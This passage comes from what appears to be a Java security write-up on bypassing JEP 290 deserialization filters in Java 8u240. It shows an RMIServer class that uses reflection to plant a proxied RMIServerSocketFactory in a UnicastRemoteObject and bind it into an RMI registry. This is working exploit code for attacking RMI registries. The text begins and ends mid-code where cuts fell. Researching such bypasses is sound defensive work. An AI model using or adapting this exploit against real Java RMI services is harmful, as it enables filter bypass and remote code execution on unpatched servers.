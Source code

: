 ```java
    }
}
```

 - RMIServer

```java
package org.h3rmesk1t.jep290.bypass8u240;

import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.ObjectOutput;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.*;
import java.util.Random;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 3:31 上午
 */
public class RMIServer {

    public static void main(String[] args) throws Exception {

        UnicastRemoteObject payload = getPayload();
        Registry registry = LocateRegistry.getRegistry(6666);
        bindReflection("demo", payload, registry);
    }

    static UnicastRemoteObject getPayload() throws Exception {

        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("localhost", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));

        System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
        RMIServerSocketFactory factory = (RMIServerSocketFactory) Proxy.newProxyInstance(
                handler.getClass().getClassLoader(),
                new Class[]{RMIServerSocketFactory.class, Remote.class},
                handler
        );

        Constructor<UnicastRemoteObject> constructor = UnicastRemoteObject.class.getDeclaredConstructor();
        constructor.setAccessible(true);
        UnicastRemoteObject unicastRemoteObject = constructor.newInstance();

        Field field_ssf = UnicastRemoteObject.class.getDeclaredField("ssf");
        field_ssf.setAccessible(true);
        field_ssf.set(unicastRemoteObject, factory);

        return unicastRemoteObject;
    }

```